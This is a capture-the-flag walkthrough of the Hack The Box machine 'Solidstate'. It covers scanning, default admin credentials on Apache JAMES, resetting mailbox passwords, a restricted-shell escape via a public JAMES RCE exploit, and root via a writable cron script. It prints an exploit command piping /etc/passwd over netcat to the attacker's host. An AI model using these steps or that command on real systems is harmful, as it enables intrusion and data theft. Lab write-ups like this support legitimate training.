 # Solidstate writeup
## Discovery
```bash
# Nmap 7.91 scan initiated Thu Jan  7 10:19:03 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.098s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.4 [10.10.14.4]), 
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  7 10:19:27 2021 -- 1 IP address (1 host up) scanned in 24.52 seconds
```

We can see that there is a webserver running on port 80, and some POP3 mail related related services.
![](2021-01-07-10-20-52.png)
 Let's check out the web page. Ooh a fancy security company. I'm sure they are super secure.
![](2021-01-07-14-31-56.png)  
The website seems to be running some running some template by HTML5 Up called solid state.
![](2021-01-07-10-28-14.png)
It seems to be really just a static template with no server-side code execution. I found the source on github:
https://github.com/quimo/html5up-solid-state

In the meantime let's use dirbuster in super fast mode with a medium-sized list.
I used to just use the python tool dirsearch, but I've noticed that it's so much slower than dirbuster in multithreaded mode, so I prefer it for larger lists now.
![](2021-01-07-10-34-42.png)

Dirbuster did not really reveal anything interesting, so let's go back to our nmap scan.
While we're at that, let's run a full nmap scan with all ports, just to be sure we did not miss anything. Huzzah! We did find another port open, 4555.
```
Full nmap scan
Discovered open port 4555/tcp on 10.10.10.51
```
Googling around for `JAMES pop3d 2.3.2` exploits I found this, which should allow RCE (remote code execution) for our james pop3 server we discovered via the nmap script
https://gist.github.com/kjiwa/82d3bb091d45b59c1d7674727b1292a7

I need to change the command to be executed:
```python
gflags.DEFINE_string('command', 'cat /etc/passwd | nc 10.10.14.4 1234', 'The command to be executed.')
```
It tells us that the command will be executed the next time a user logs in to the machine.
We can't do that yet though, and I doubt that any of the users are actually being simulated.
Might be useful for later though.
Let's check out the management service that the exploit uses on port `4555`.
The exploit tells us that root/root should be the default credentials. Let's try that:
![](2021-01-07-10-46-23.png)
Success, we can now use this interface to modify users.
Just to see if we really have access, I created a user `test`:
![](2021-01-07-10-49-40.png)
There is also the command `listusers`. Hmm `mailadmin` looks juicy. Let's change his password with the `setpassword` command:
![](2021-01-07-13-05-48.png)

Connecting with the mailadmin shows no emails though unfortunately:
![](2021-01-07-13-11-05.png)

There are other juicy users though. Let's try mindy!
![](2021-01-07-13-12-07.png)

And to mix it up, let's use thunderbird to list the emails:
![](2021-01-07-13-13-42.png)

![](2021-01-07-13-13-54.png)

And indeed, poor old Mindy seems to have gotten some mail
![](2021-01-07-14-45-34.png)

```
Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: <censored>

Respectfully,
James
```

Let's log in with mindy then: `ssh mindy@10.10.10.51`

Running some commands we can see that they really don't trust this poor mindy person. She cannot run anything useful :(

![](2021-01-07-13-17-52.png)

![](2021-01-07-13-18-53.png)
The only tools she's allowed to use are in this ./bin directory. Not a lot in there though.
I think we should find a way for mindy to be free and run whatever we want. Equal rights and whatnot!
![](2021-01-07-13-19-37.png)

The easiest way I could think of would be to just append more directories to her `PATH`:
```
mindy@solidstate:~$ export PATH=/bin:/usr/local/bin/:/usr/bin/:$PATH
-rbash: PATH: readonly variable

mindy@solidstate:~$ /bin/bash 
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```
But it seems that they have thought about that.
I found this article which sheds some light on restricted shells.
https://www.oreilly.com/library/view/network-security-hacks/0596006438/ch01s19.html

But wait... we still have something that we did not use yet. We can log in as a user now!
So let's try our python script from before (keen eyed people will notice it's a different python file, but the same exploit, I found this one easier to use)
![](2021-01-07-13-23-46.png)

Now we just need to log in as mindy again, and the RCE will be triggered. We get a shell in our netcat listener!
![](2021-01-07-13-24-06.png)
This shell is much more usable, it actually allows us to run commands!  
![](2021-01-07-13-24-34.png)

## Privilege Escalation
Ok now that we have a usable shell we can actually run some diagnostic tools. I'll start an updog server (what's updog? 👉😎👉 Not much just a minimal HTTP server).
![](2021-01-07-13-16-27.png)

We'll wget that from our machine and run it.
It did find some password, but it doesn't seem to work for anything. May very well be some default. (su root -> nothing)
```
/etc/apache2/sites-available/default-ssl.conf:          #        file needs this password: `xxj31ZMTZzkVA'.
```
Seems that linPEAS did not really find anything, so let's try LinEnum.
This time I actually learned about it's thorough mode with `-t`, which also does more file system checks
```bash
sh LinEnum.sh -t
```
It found something interesting! A file that is chmoded to 777 and belongs to root. It may be that it's executed periodically?
```
-e [-] World-writable files (excluding /proc and /sys)                                                                             
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py                                              
```

Looking at it it's a simple python file that executes a system command.
```sh
rm -r /tmp/*
```
Let's change it to execute a reverse shell:
![](2021-01-07-14-03-43.png)

And we're root!  
![](2021-01-07-14-04-02.png)

![](2021-01-07-15-01-58.png)